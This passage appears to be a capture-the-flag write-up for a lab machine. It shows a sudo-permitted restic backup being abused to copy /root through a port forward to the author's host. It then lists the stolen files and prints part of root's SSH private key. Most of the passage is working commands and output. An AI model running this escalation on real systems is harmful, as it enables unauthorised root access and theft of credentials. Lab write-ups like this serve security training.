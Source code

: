 Looks like the portforwarding works. We can see that our local host is listening on 6969, the port we specified to be pushed to our host. Now we can reach our remote repository.

```
SOCKET: Shell has connected! PID: 14650 
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bolt:~/html$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:6969 /root
<n/restic backup -r rest:http://127.0.0.1:6969 /root
enter password for repository: lmao
password is correct   
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them  
scan [/root]     
scanned 10 directories, 13 files in 0:00       
[0:00] 100.00%  27.856 KiB / 27.856 KiB  23 / 23 items  0 errors  ETA 0:00                    
duration: 0:00                             
snapshot e222bfa6 saved
```

Don't forget to upgrade to a python shell else the command wont run since it requires a password and your input. Once we have the files backed up, we can access them locally.

`restic -r . ls latest`
```
enter password for repository: 
repository 2aa2d7e9 opened successfully, password is correct
snapshot e222bfa6 of [/root] filtered by [] at 2022-06-12 21:41:18.740370801 +0000 UTC):
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.cache/motd.legal-displayed
/root/.config
/root/.config/composer
/root/.config/composer/keys.dev.pub
/root/.config/composer/keys.tags.pub
/root/.gnupg
/root/.gnupg/private-keys-v1.d
/root/.local
/root/.local/share
/root/.local/share/nano
/root/.profile
/root/.selected_editor
/root/.ssh
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/config.yml
/root/cron.sh
/root/root.txt
```
We have the root flag but that wont pwn the machine, but the id_rsa would :3

`restic -r . dump latest /root/.ssh/id_rsa`
```
enter password for repository: 
repository 2aa2d7e9 opened successfully, password is correct
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAmiGiXpswTyHhjgC55jHRWlGX1asEMyDFfkVwhuNohv/4cQKm
cJB/3psQocosq+GMh9Y/uRPUgMcDnrTaNYOdkPS+QLd8vcFKSwSewH1w4/AYLuci
4k71qYsJlkcS2Pb0PqEcpodmXf4OBdTCiCCnjgGhOcvPpKMSCb1vy2Yo+A+eHzKp
1S48LgJRLKU1sGe0KE4MC8g7qpF7NSKOCW69z5KaoopQA3jPxnW17WE9PdGZQvqX
4/Mf9DGdeUrejRlX0BI2EGiZhPKwwKxqIHLRpw4pR4+OjR1sOkAA7UWtMYn/3cs+
IS3L75/i5Qsr0cMCtZ/hQAKtjpPoCCe1qHp7CQIDAQABAoIBAFlvYtQaoLGKK2NG
sJgOGDicV8o37bvtLCvVBzJ+Ck0rgnGw4/s1Hb2BpOj8c2dY/T5k55zxEMGYuVUC
BAxBTtCp8yuCTPOekQluqN9w6myZCK9Ol0NSJeI3N1zn6NvUkG0293T55EBuBp0D
k82BhTg1YeQzi00xAmp8bb5MjUFCiCbSFH1MMpY/9itg1b3mqx7UlyDldMM9UdKH
```